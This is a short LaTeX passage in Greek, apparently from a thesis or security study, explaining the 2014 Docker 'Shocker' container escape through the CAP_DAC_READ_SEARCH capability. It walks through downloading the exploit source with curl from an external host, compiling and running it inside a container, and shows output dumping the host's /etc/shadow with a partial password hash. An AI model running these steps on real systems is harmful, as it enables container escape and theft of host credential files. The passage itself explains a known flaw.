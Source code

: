 \subsubsection{\texttt{\textlatin{CAP\_DAC\_READ\_SEARCH}}}

Πριν το \textlatin{Docker} 1.0.0 το \textlatin{CAP\_DAC\_READ\_SEARCH}
προστέθηκε στις προεπιλεγμένες δυνατότητες που παρέχονται σε ένα κοντέινερ.
Αλλά αυτή η ικανότητα επιτρέπει σε μια διαδικασία να ξεφύγει από ένα κοντέινερ
\cite{Docker-Shocker-Seclists}. Μια διαδικασία με
\textlatin{CAP\_DAC\_READ\_SEARCH} είναι σε θέση να κάνει
\textlatin{bruteforce} το εσωτερικό ευρετήριο (\textlatin{internal index}) των
αρχείων εκτός του κοντέινερ. Ως απόδειξη της εκμετάλλευσης της συγκεκριμένης
επίθεσης, δημοσιοποιήθηκε ένα \textlatin{Proof of concept} \cite{Docker-Shocker}
\cite{Docker-Shocker-Analysis}. Αυτό το \textlatin{exploit} κυκλοφόρησε το 2014,
αλλά εξακολουθεί να λειτουργεί σε κοντέινερ με την ικανότητα
\textlatin{CAP\_DAC\_READ\_SEARCH}. \\

\texttt{\textlatin{(host)\$ curl -o /tmp/shocker.c http://stealth.openwall.net/xSports/shocker.c}}

\texttt{\textlatin{(host)\$ sed -i "s/\textbackslash /.dockerinit/\textbackslash /tmp\textbackslash /a.out/" shocker.c}}

\texttt{\textlatin{(host)\$ cc -Wall -std=c99 -O2 shocker.c -static}}

\texttt{\textlatin{(host)\$ docker run --rm -it --cap-add=CAP\_DAC\_READ\_SEARCH -v /tmp:/tmp busybox sh}}

\texttt{\textlatin{(cont)\# /tmp/a.out}}

\texttt{\textlatin{...}}

\texttt{\textlatin{[!] Win! /etc/shadow output follows:}}

\texttt{\textlatin{...}}

\texttt{\textlatin{admin:\$6\$VOSV5AVQ\$jHWxAVAUgl...:18142:0:99999:7:::}} \\

Το \textlatin{exploit} χρειάζεται ένα αρχείο με δικαιώματα χειρισμού αρχείου στο
κεντρικό σύστημα για να πετύχει. Αντί για το προεπιλεγμένο
\texttt{\textlatin{/.dockerinit}} (το οποίο δεν δημιουργείται πλέον σε
νεότερες εκδόσεις του \textlatin{Docker}) χρησιμοποιούμε το ίδιο το αρχείο
\textlatin{exploit /tmp/a.out}. Αρχίζουμε ένα κοντέινερ με την ικανότητα
\texttt{\textlatin{CAP\_DAC\_READ\_SEARCH}} και εκτελούμε το \textlatin{exploit}.
Παρατηρούμε ότι εκτυπώνει το αρχείο κωδικού πρόσβασης του κεντρικού υπολογιστή
(π.χ. \textlatin{/etc/shadow}).

